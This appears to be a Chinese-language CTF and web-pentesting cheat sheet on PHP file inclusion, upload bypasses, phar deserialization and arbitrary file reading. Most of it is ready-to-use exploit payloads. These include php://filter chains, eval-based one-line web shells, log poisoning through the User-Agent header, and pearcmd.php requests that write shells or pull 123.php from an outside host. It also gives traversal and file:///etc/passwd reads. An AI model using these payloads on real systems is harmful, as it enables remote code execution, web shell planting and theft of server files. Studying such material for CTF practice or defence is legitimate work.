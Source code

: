 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                                                                                                                                                              | payload                                                                                                                                            |     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php                                                                                                                                            |                                                                                                                                                    |     |
| `?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php` <br> `?file=php://filter/convert.iconv.UTF8.CSISO2022KR\|convert.iconv.ISO2022KR.UTF16\|convert.iconv.L6.UCS2/resource=flag.php` | UTF-8 过滤器 , 可以上面两个联合用                                                                                                                  |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                                                                                                                                                                    | 文件包含即命令执行 [原理](https://goodapple.top/archives/968)                                                                                      |     |
| glob://                                                                                                                                                                                           |                                                                                                                                                    |     |
| 上传 a.zip 改为 a.jpg                                                                                                                                                                             | zip://伪协议进行包含 一句话 a.php `<?php @eval($_POST['a'])?>` <br>url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` 密码为 a |
| pearcmd.php 包含                                                                                                                                                                                  | [#pearcmd](#pearcmd)                                                                                                                               |
| 日志包含                                                                                                                                                                                          | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                         |
| phpinfo 中 `allow_url_include=On;allow_url_include=On`时                                                                                                                                          | 可 ?file=http://xxx.com/1.txt 远程包含                                                                                                             |
| 使用 [.user.ini](#userini) 进行包含                                                                                                                                                               | auto_append_file=2.jpg                                                                                                                             |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                                                                                                                                                              | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py    |

日志包含

```sh
'/var/log/nginx/access.log'
'/var/log/apache2/access.log'
'/var/log/httpd/access_log'
```

## .user.ini

相当于 `include('xx.txt')`

| Desc                      | .user.ini                                    | payload                                                                                |
| ------------------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 过滤了`<?` 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含                  | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

## pearcmd

1. 知道 pearcmd.php 文件的路径（默认路径是/usr/local/lib/php/pearcmd.php）, phpinfo 中的 `include_path`
2. `register_argc_argv=On`
3. payload `要用burp发`

```sh
# 不出网
index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
a1.php?file=/usr/local/lib/php/pearcmd.php&+config-create+/'<?=phpinfo()?>'+./info1.php

# 出网
index.php?+install+--installroot+&file=/usr/local/lib/php/pearcmd.php&+http://xilitter.top/123.php
```

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- `$_GET['xxx']`, 都可以用 filter 这类读文件尝试
- %00 截断 php 版本小于 5.3.4
- 上传为 zip 为 pic.jpg, zip://读取 url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` ,需要将#编码为%23
- 上传为 zip 用 phar 去读
- 上传时和文件相关都可能是 phar 反序列化,如 `file_exists($filename)` 考虑 phar 反序列化 `phar://abc.phar.gif/test.txt`
  - 能进行攻击的不只有 file_get_contents，所有的文件函数都会导致这个问题
- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag

```sh
# 触发  phar 反序列化
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is writable.
parse_ini_file
unlink
copy
```

# 文件读取

url=file://127.0.0.1/etc/passwd
url=file:///etc/passwd
